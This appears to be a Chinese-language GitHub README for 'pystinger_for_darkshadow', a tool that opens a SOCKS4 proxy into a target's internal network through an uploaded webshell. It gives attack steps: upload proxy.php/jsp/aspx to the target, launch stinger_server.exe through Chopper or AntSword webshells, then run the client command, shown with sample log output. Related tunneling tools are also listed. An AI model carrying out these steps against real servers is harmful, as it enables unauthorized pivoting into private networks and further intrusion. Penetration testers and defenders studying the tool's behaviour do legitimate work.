 # 毒刺(pystinger_for_darkshadow)
毒刺(pystinger_for_darkshadow)是一个通过webshell实现**内网SOCK4代理出网**.工具主体使用python开发,当前支持php,jsp(x),aspx三种代理脚本.
如需使用端口转发功能请使用pystinger原版
# 使用方法

## SOCK4代理
* proxy.php上传到目标服务器,确保 [http://192.168.3.11:8080/proxy.jsp](http://192.168.3.11:8080/proxy.jsp)可以访问,页面返回 stinger XXX!
* 将stinger_server.exe上传到目标服务器,菜刀(蚁剑)执行stinger_server.exe启动服务端
* stinger_client命令行执行```./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 0.0.0.0 -p 60000```,生成如下输出表示成功
```
root@kali:~# ./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 0.0.0.0 -p 60000
2019-12-08 21:53:10,207 - INFO - 468 - Local listen check pass.
2019-12-08 21:53:10,207 - INFO - 469 - Socks4a on 0.0.0.0:60000
2019-12-08 21:53:10,217 - INFO - 478 - WEBSHELL check pass.
2019-12-08 21:53:10,218 - INFO - 479 - http://192.168.3.11:8080/proxy.jsp
2019-12-08 21:53:10,226 - INFO - 490 - REMOTE_SERVER check pass.
2019-12-08 21:53:10,226 - INFO - 491 - --- Sever Config ---
2019-12-08 21:53:10,226 - INFO - 493 - client_address_list => []
2019-12-08 21:53:10,226 - INFO - 493 - SERVER_LISTEN => 127.0.0.1:60010
2019-12-08 21:53:10,227 - INFO - 493 - READ_BUFF_SIZE => 51200
2019-12-08 21:53:10,227 - INFO - 493 - LOG_LEVEL => INFO
2019-12-08 21:53:10,227 - INFO - 506 - SLEEP_TIME : 0.01
2019-12-08 21:53:10,227 - WARNING - 90 - LoopThread start
2019-12-08 21:53:10,229 - WARNING - 370 - socks4a server start on 0.0.0.0:60000
2019-12-08 21:53:10,232 - WARNING - 377 - Socks4a ready to accept

```
* 此时已经在本地60000启动了一个192.168.3.11所在内网的socks4代理
# 相关工具
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)
# 已测试
## stinger_server\stinger_client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0

# 更新日志
**2.0**
更新时间: 2019-09-29
* 将socks4代理服务移动到客户端
* 不再支持端口转发功能


